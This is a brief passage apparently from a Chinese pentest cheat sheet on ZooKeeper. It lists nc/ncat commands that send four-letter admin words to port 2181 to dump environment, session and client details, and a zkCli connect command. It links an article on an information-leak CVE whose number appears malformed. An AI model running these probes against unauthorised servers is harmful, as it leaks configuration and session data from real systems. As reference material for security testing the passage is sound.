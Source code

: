 - 利用
    ```bash
    echo envi|nc <ip> 2181 # 打印有关服务环境的详细信息
    echo dump |ncat <ip> 2181 # 列出未完成的会话和临时节点
    echo reqs |ncat <ip> 2181 # 列出未完成的请求
    echo ruok |ncat <ip> 2181 # 测试服务器是否运行在非错误状态
    echo stat |ncat <ip> 2181 # 列出关于性能和连接的客户端的统计信息

    ./zkCli.sh -server <ip>:port
    ```

**CVE-2014-085 ZooKeeper 信息泄露漏洞**
- 文章
    - [ZooKeeper信息泄露漏洞(CVE-2014-085)](https://blog.csdn.net/u011721501/article/details/44062617)

